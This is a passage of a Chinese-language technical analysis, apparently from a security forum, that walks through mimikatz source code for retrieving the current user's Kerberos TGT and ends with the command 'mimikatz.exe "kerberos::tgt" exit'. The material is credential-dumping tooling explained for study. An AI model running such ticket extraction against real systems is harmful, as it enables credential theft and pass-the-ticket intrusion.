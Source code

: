 ```cpp
            kiwiTicket.EndTime = *(PFILETIME)&pKerbRetrieveResponse->Ticket.EndTime;
            kiwiTicket.RenewUntil = *(PFILETIME)&pKerbRetrieveResponse->Ticket.RenewUntil;
            kiwiTicket.Ticket.Length = pKerbRetrieveResponse->Ticket.EncodedTicketSize;
            kiwiTicket.Ticket.Value = pKerbRetrieveResponse->Ticket.EncodedTicket;
            kuhl_m_kerberos_ticket_display(&kiwiTicket, TRUE, FALSE);

            for (i = 0; !isNull && (i < kiwiTicket.Key.Length); i++) // a revoir
                isNull |= !kiwiTicket.Key.Value[i];
            if (isNull)
                kprintf(L"\n\n\t** Session key is NULL! It means allowtgtsessionkey is not set to 1 **\n");

            LsaFreeReturnBuffer(pKerbRetrieveResponse);
        }
        else if (packageStatus == SEC_E_NO_CREDENTIALS)
            kprintf(L"no ticket !\n");
        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveTicketMessage / Package : %08x\n", packageStatus);
    }
    else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveTicketMessage : %08x\n", status);

    return STATUS_SUCCESS;
}
```

可以看到，该函数首先定义一个 KERB\_RETRIEVE\_TKT\_REQUEST 结构变量 kerbRetrieveRequest，并将成员 MessageType 设为 KerbRetrieveTicketMessage。

然后通过 LsaCallKerberosPackage 发送 KerbRetrieveTicketMessage 消息为当前用户会话检索 TGT 票据，并将返回的 TGT 保存到 pKerbRetrieveResponse 中。

最后将检索到的新的 TGT 信息保存在 kiwiTicket 中。kiwiTicket 同样是一个自定义的 KIWI\_KERBEROS\_TICKET 结构体，用于临时存储票据信息。

最终的执行效果如下：

```cpp
mimikatz.exe "kerberos::tgt" exit
```

![image-20230511163244010](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-9f8832d8c16695d6fd2083b2b4591c82155647b0.png)